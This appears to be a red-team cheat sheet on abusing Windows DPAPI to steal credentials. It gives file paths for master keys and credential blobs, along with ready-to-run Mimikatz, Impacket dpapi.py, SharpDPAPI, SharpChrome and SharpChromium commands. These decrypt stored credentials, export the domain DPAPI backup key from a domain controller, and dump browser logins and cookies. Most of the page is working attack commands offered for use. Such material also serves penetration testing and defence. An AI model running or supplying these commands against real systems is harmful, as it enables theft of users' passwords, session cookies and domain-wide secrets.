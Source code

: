 ```yaml
---
description: Data Protection API
---
```


# DPAPI

* [https://habr.com/ru/post/434514/](https://habr.com/ru/post/434514/)

{% file src="/.gitbook/assets/ZN17 - Hunting for Credentials Dumping in Windows Environment (Teymur Kheirkhabarov).pdf" %}

Master keys locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\ (%appdata%\Microsoft\Protect\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Protect\ (%localappdata%\Microsoft\Protect\)
```

Credential files locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Credentials\ (%appdata%\Microsoft\Credentials\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\ (%localappdata%\Microsoft\Credentials\)
```

Unhide files:

```
PS > cmd /c "attrib -h -s 00ff00ff-00ff-00ff-00ff-00ff00ff00ff"
PS > cmd /c "attrib -h -s 00ff00ff00ff00ff00ff00ff00ff00ff"
```




## Mimikatz

* [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

Decrypt manually offline with known plaintext password:

```
mimikatz # dpapi::masterkey /in:00ff00ff-00ff-00ff-00ff-00ff00ff00ff /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:Passw0rd!
mimikatz # dpapi::cache
mimikatz # dpapi::cred /in:00ff00ff00ff00ff00ff00ff00ff00ff
```




## Impacket

Retrieve the domain DPAPI backup key (never changes) from a DC to decrypt master key and blobs:

```
$ dpapi.py backupkeys --export -k -no-pass -t DC01.megacorp.local
$ dpapi.py masterkey -file ./Users/Administrator/AppData/Roaming/Microsoft/Protect/<SID>/00ff00ff-00ff-00ff-00ff-00ff00ff00ff -pvk 'G$BCKUPKEY_<GUID>.pvk
$ dpapi.py credential -file ./Users/Administrator/AppData/Roaming/Microsoft/Credentials/00ff00ff00ff00ff00ff00ff00ff00ff -key 0x<HEX_MASTER_KEY>
```




## SharpDPAPI

* [https://github.com/GhostPack/SharpDPAPI#table-of-contents](https://github.com/GhostPack/SharpDPAPI#table-of-contents)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1)

Triage user's *credentials*, *vaults*, *rdg* and *certificates*:

```
PS > .\SharpDPAPI.exe triage /password:Passw0rd!
```

Triage machine's credentials (*machinecredentials*), vaults (*machinevaults*) and certificates (*certificates /machine*):

```
PS > .\SharpDPAPI.exe machinetriage
```

Retrieve the domain DPAPI backup key (never changes) from a DC to decrypt master key and blobs for any user in the domain with it (needs DA privileges):

```
PS > .\SharpDPAPI.exe backupkey /nowrap [/server:DC01.megacorp.local] [/file:key.pvk]
PS > .\SharpDPAPI.exe credentials /pvk:key.pvk [/server:PC01.megacorp.local]
```



### SharpChrome

- [https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands](https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands)

```
PS > .\SharpChrome.exe logins|cookies [/pvk:key.pvk]
```




## SharpChromium

- [https://github.com/djhohnstein/SharpChromium](https://github.com/djhohnstein/SharpChromium)

```
PS > ls "C:\Users\snovvcrash\AppData\Local\Google\Chrome\User Data\Default"
PS > .\SharpChromium.exe logins
PS > .\SharpChromium.exe cookies
```




## Tools

- [https://github.com/login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)
- [https://github.com/zblurx/dploot](https://github.com/zblurx/dploot)
- [https://github.com/leftp/DPAPISnoop](https://github.com/leftp/DPAPISnoop)

